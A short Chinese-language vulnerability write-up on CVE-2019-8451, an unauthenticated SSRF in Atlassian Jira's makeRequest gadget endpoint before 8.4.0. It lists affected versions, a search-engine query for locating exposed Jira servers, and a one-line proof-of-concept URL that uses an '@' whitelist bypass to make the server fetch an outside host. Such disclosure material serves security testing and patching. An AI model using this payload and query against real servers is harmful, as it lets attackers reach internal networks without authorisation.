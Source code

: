 # Atlassian Jira makeRequest SSRF漏洞 CVE-2019-8451

# Atlassian Jira makeRequest SSRF漏洞 CVE-2019-8451

## 漏洞描述

Jira的 /plugins/servlet/gadgets/makeRequest资源存在SSRF漏洞，原因在于JiraWhitelist这个类的逻辑缺陷，成功利用此漏洞的远程攻击者可以以Jira服务端的身份访问内网资源。经分析，此漏洞无需任何凭据即可触发。

## 漏洞影响

```
Atlassian Jira <8.4.0
```

## 网络测绘

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](/images/202205241427027.png)

验证POC

```
/plugins/servlet/gadgets/makeRequest?url=http://目标IP@www.baidu.com/robots.txt
```

![](/images/202205241427776.png)

